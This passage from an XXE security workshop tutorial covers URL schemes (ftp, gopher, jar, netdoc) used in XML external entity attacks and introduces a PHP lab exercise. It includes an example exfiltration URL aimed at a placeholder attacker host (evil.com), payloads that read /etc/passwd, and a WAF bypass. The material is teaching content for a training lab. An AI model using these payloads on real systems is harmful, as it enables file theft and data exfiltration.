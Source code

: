 :negative
`https://169.254.169.254/latest/user-data` AWS metadata URLs now require a special header. It is unlikely that you will be able to access it with XXE.


#### ftp: protocol

This protocol allows you to connect to a FTP server to read file (would require to know the exact file location and credentials to authenticate) or exfiltrate data (see the next exercise).

Example:
- `ftp://user:password@internal.company.net/file`
- `ftp://user:<data_exfil>@evil.com`

#### gopher: protocol

Another option for data exfiltration is the gopher protocol. It allows to connect to any server with a TCP with an arbitrary message. The path section of the URL is the data that will be written to the TCP socket.
It is rarely available as it requires very [old versions of Java](https://bugzilla.redhat.com/show_bug.cgi?id=865541#c0).

- `gopher://server/?data`

#### jar: protocol

The `jar` protocol is a very special case. It is only available on Java applications. It allows to access files inside a PKZIP archive (`.zip`, `.jar`, ...). You will see in the last exercise how it can be used to write files to a remote server.

Example:
- `jar:file://./archive.zip!config.properties`

#### netdoc: protocol

This protocol is alternative to the `file://` protocol. It is of limited use. It is often cited as a method to bypass some WAF blocking for specific string such as `file:///etc/passwd`.

Example:
- `netdoc:///etc/passwd`















## LAB 3: Filter encoding
Duration: 00:15:00

For this third exercise, we are using a website that is very similar to the first exercise. It is also parsing Atom feed. It is, however, using a different language : PHP. The service is at the URL : [http://xxe-workshop.gosec.co:8022](http://xxe-workshop.gosec.co:8022)

